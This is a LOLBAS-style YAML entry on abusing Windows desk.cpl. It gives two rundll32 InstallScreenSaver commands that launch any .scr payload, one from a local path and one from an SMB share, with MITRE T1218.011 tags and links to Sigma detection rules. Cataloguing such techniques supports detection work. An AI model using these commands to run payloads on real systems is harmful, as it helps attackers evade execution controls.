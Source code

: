 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver C:\temp\file.scr
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
  - Command: rundll32.exe desk.cpl,InstallScreenSaver \\127.0.0.1\c$\temp\file.scr
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11    
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_installscreensaver.yml
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
  - Person: Christopher Peacock
    Handle: '@SecurePeacock'
---
```

